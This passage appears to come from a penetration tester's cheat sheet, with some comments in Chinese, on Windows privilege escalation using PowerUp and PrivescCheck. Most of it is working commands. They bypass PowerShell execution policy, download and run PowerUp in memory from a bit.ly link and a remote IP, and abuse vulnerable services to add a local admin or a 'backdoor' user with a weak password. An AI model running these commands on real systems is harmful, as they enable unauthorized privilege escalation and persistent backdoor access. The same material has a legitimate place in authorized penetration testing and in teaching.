 ```powershell
# PowerSploit/powerup
powershell -ep bypass
. .\powerup.ps # Import-Module powerup.ps1
Invoke-AllChecks

# output file
PS C:\> Invoke-AllChecks | Out-File -Encoding ASCII checks.txt

# one liner
C:\> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"

# no file on local disk/no touching disk
C:\> powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/1mK64oH'); Invoke-AllChecks"

# 常用
Get-UnquotedService         #returns services with unquoted paths that also have a space in the name
Get-ServiceDetail           #returns detailed information about a specified service
Set-ServiceBinaryPath       #sets the binary path for a service to a specified value
Invoke-ServiceAbuse         #modifies a vulnerable service to create a local admin or execute a custom command
Write-ServiceBinary         #writes out a patched C# service binary that adds a local admin or executes a custom command

# vulnerable service executeable
# backup exe and write out a patched C# service
# create new user named backdoor, reboot to get user added; can't start/stop service
# restore service
# PS C:\> Write-ServiceEXE -ServiceName CustomSVC -UserName backdoor -Password password123 -Verbose
Restore-ServiceEXE -ServiceName CustomSVC

# 参考：Powrshell 提权框架-Powerup; PowerShell工具之Powerup详解实录
# 远程加载内存中执行
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.128/Powershell/PowerSploit/Privesc/PowerUp.ps1');Invoke-AllChecks"

# 本地加载
# 不想每次都要的加载可以使用 -NOexit 参数
powershell.exe -nop -exec bypass -C "Import-Module .\PowerUp.ps1;Invoke-AllChecks" 
Powershell.exe -exec bypass -Command "&{Import-Module .\PowerUp.ps1;Invoke-AllChecks}" 
```

### PrivescCheck
+ [PrivescCheck](https://github.com/itm4n/PrivescCheck)

```bat
# from cmd prompt
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"

# From a PowerShell prompt
Set-ExecutionPolicy Bypass -Scope process -Force
. .\PrivescCheck.ps1; Invoke-PrivescCheck

# From a PowerShell prompt without modifying the execution policy
PS C:\Temp\> Get-Content .\PrivescCheck.ps1 | Out-String | IEX
PS C:\Temp\> Invoke-PrivescCheck

# Extended mode 
Invoke-PrivescCheck -Extended

# report file
Invoke-PrivescCheck -Report PrivescCheck_%COMPUTERNAME%
```